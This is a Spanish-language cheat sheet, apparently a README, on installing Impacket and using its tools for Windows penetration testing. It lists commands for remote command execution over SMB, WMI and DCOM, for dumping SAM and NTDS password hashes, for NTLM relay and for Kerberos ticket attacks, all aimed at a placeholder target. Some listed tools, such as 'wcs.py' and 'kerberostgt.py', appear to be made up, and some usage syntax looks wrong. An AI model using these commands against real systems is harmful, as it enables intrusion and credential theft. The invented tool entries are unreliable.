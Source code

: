 Impacket es una colección de herramientas y librerías para trabajar con protocolos de red de bajo nivel. Es muy útil en pruebas de penetración, ya que permite la interacción con protocolos como SMB, DNS, HTTP, RDP, entre otros.
## Instalación y Configuración
1. Clonar el repositorio y entrar en él:
```bash
git clone https://github.com/SecureAuthCorp/impacket.git && cd impacket
``` 
2. Crear y activar un entorno virtual:
```bash
python3 -m venv .venv
```
```bash
source .venv/bin/activate
```
3. Instalar dependencias:
```bash
pip3 install -r requirements.txt
```
```bash
pip3 install .
```
## Herramientas y Usos Comunes de Impacket
1. **psexec.py**
Descripción:
Permite ejecutar comandos de manera remota en sistemas Windows utilizando el protocolo SMB. Ideal para realizar pruebas de penetración y obtener acceso remoto a través de SMB.
Ejemplo:
```bash
python3 psexec.py user:password@target_ip cmd.exe
```

2. **smbexec.py**
Descripción:
Ejecuta comandos de manera remota sobre un recurso compartido SMB de una máquina objetivo. Es similar a psexec.py, pero enfocado en ejecutar scripts y comandos sin necesidad de una shell interactiva.
Ejemplo:
```bash
python3 smbexec.py user:password@target_ip
```

3. **wmiexec.py**
Descripción:
Permite ejecutar comandos remotamente en máquinas Windows utilizando Windows Management Instrumentation (WMI). Es una excelente opción para evadir firewalls y restricciones SMB.
Ejemplo:
```bash
python3 wmiexec.py user:password@target_ip cmd.exe
```

4. **secretsdump.py**
Descripción:
Extrae hashes de contraseñas de un controlador de dominio o máquina Windows. Puede volcar los hashes de SAM y NTDS, permitiendo la posterior realización de ataques de cracking de contraseñas.
Ejemplo:
```bash
python3 secretsdump.py user:password@target_ip
```

5. **mssqlclient.py**
Descripción:
Permite interactuar con servidores Microsoft SQL Server de manera remota. Se puede usar para realizar consultas, ejecutar comandos SQL y obtener acceso a bases de datos. Ideal para pruebas de penetración en servicios MS SQL.
Ejemplo:
```bash
python3 mssqlclient.py user:password@target_ip
```
Ejecutar una consulta:
```bash
python3 mssqlclient.py user:password@target_ip -c "SELECT * FROM master.dbo.sysdatabases"
```

6. **impacket-smbclient.py**
Descripción:
Permite interactuar con recursos compartidos SMB en una máquina Windows, de forma similar a un cliente SMB tradicional. Utilizado para explorar los recursos de red de una máquina objetivo.
Ejemplo:
```bash
python3 impacket-smbclient.py //target_ip/share_name user:password
```

7. **ntlmrelayx.py**
Descripción:
Realiza ataques de retransmisión NTLM contra máquinas Windows. Permite tomar credenciales de autenticación NTLM de máquinas vulnerables para acceder a otros recursos o servicios dentro de la red.
Ejemplo:
```bash
python3 ntlmrelayx.py -t smb://target_ip
```

8. **getTGT.py**
Descripción:
Permite obtener un Ticket Granting Ticket (TGT) de Kerberos para un usuario autenticado en un dominio. Usado en ataques de Kerberos para la escalación de privilegios.
Ejemplo:
```bash
python3 getTGT.py user:password@target_ip
```

9. **dcomexec.py**
Descripción:
Ejecuta comandos de manera remota a través del protocolo DCOM. Es una excelente alternativa a los métodos SMB y WMI para ejecutar comandos sin necesidad de acceso físico.
Ejemplo:
```bash
python3 dcomexec.py user:password@target_ip cmd.exe
```

10. **wcs.py**
Descripción:
Permite la ejecución remota de comandos utilizando el servicio de Windows Command Shell. Similar a wmiexec.py, pero usando comandos específicos de shell.
Ejemplo:
```bash
python3 wcs.py user:password@target_ip cmd.exe
```

11. **kerberostgt.py**
Descripción:
Permite obtener un TGT de Kerberos y realizar ataques de Pass-the-Ticket (PTT) en redes de Windows. Es usado comúnmente para obtener acceso a servicios de Kerberos y escalar privilegios.
Ejemplo:
```bash
python3 kerberostgt.py user:password@target_ip
```

## Características Principales:
- **Protocolos soportados**: SMB, RDP, LDAP, HTTP, entre otros.
- **Acceso remoto**: Facilita el acceso y control remoto de sistemas mediante SMB, WMI y otros protocolos.
- **Extracción de credenciales**: Permite la recolección de hashes y credenciales de usuarios de sistemas Windows.

## Uso común en auditorías de seguridad:
- Realizar ataques de ejecución remota de comandos (RCE) sobre SMB y WMI.
- Enumerar y extraer hashes de contraseñas de sistemas comprometidos.
- Simular ataques como parte de un Pentesting para evaluar la seguridad de sistemas Windows.

Referencias de uso: [Impacket Documentation](https://github.com/fortra/impacket)

